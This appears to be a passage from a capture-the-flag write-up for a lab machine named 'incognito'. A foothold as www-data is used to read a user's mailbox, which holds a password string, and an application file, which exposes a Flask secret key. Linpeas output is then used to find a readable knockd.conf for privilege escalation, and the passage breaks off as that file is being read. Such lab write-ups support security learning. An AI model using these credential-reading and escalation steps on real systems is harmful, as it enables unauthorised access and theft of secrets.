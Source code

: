 Let take a look at `/var/mail/dev1`
```msg
www-data@incognito:/dev/shm$ cat /var/mail/dev1
cat /var/mail/dev1
Hey, your password has been changed, dc647eb65e6711e155375218212b3964.
Knock yourself in!
www-data@incognito:/dev/shm$ 
```
Just getting curios to take a look at source code and found this hidden file `incognito.wsgi`
```
www-data@incognito:/var$ cd mail
cd mail
www-data@incognito:/var/mail$ ls
ls
dev1
www-data@incognito:/var/mail$ cd ..
cd ..
www-data@incognito:/var$ cd www
cd www
www-data@incognito:/var/www$ ls
ls
dev.incognito.com
html
incognito.com
www-data@incognito:/var/www$ cd incognito.com
cd incognito.com
www-data@incognito:/var/www/incognito.com$ ls
ls
__pycache__
incognito
incognito.wsgi
www-data@incognito:/var/www/incognito.com$ cat incognito.wsgi
cat incognito.wsgi
#!/usr/bin/python3
import sys
import logging
logging.basicConfig(stream=sys.stderr)
sys.path.insert(0,"/var/www/incognito.com/incognito/")

from incognito import app as application
application.secret_key = 'KeepITSecret'
www-data@incognito:/var/www/incognito.com$ 
```
We can Switch to dev2 wihout password

As the knock word in  msg , is hint of knock.conf revil by linpeas in ACLs file.
```
╔══════════╣ Files with ACLs (limited to 50)
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#acls
# file: /etc/knockd.conf
USER   root      rw-     
user   dev1      rw-     
GROUP  root      r--     
mask             rw-     
other            r--     

files with acls in searched folders Not Found
```
Let view this 
```
cat /etc/knockd.conf
```
Knock.conf
```
www-data@incognito:/dev/shm$ cat /etc/knockd.conf
cat /etc/knockd.conf
```